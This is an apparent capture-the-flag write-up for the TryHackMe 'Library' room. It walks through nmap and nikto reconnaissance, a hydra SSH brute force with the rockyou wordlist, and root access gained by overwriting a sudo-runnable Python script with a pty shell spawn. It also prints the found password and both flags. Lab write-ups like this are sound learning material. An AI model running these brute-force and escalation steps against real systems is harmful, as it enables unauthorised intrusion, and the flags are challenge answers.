 
# Writeup
Machine info
```
IP: 
OS: Linux
Based: Database (Rebis)
```
[Visite the room from TryHackMe](https://tryhackme.com/room/bsidesgtlibrary)

## Pentest Methodology
---
### Information gathering

run nmap scan for service detection and open ports
>~$ nmap -sV 10.10.187.205

open port
```
22: ssh
80: http
```
Run nmap for http enumeration over the port 80

>~$ nmap -p80 --script http-enum* 10.10.187.205 

Discovered file and Directory
```
/robots.txt: Robots file
|_  /images/: 
```

users that are comment on the blog
```
root
www-data
anonymous
```
Blog owned by meliodas maybe it can be part of the list user
<!--Posted on June 29th 2009 by meliodas-->

### Vulnerability Assessment
 
Run nikto against the target
>nikto -h 10.10.187.205

~~Nothing found with nikto~~

### Exploitation

Create a file called `users.txt` and add these names
```
meliodas
root
www-data
anonymous
```

Try to brute force ssh for each users using rockyou wordlist
```
~$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.187.205 -t 32
```
Credential found for user melodas
```
username: meliodas
password: iloveyou1
```
Login on the target using ssh
>~$ ssh meliodas@10.10.187.205

Read user meliodas contents
>~$ cat user.txt

user flag: 6d488cbb3f111d135722c33cb635f4ec

### Privilege Escalation

Let's check if `meliodas` can run command can we run as sudo
>~$ sudo -l

Result:
```
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
Try if we can modify the file

>sudo nano ~/bak.py 

*We got an error message*

Try to make a copy of the file 
>~$ cp bak.py bak_old.py

*Yes it works*

To escalate our priv let's overwrite the file

>~$ echo 'import pty;pty.spawn("/bin/bash")' \> bak.py

Run the root terminal
>~$ sudo /usr/bin/python3 /home/meliodas/bak.py
root@ubuntu:~# 

root lag: e8c8c6c256c35515d1d344ee0488c617

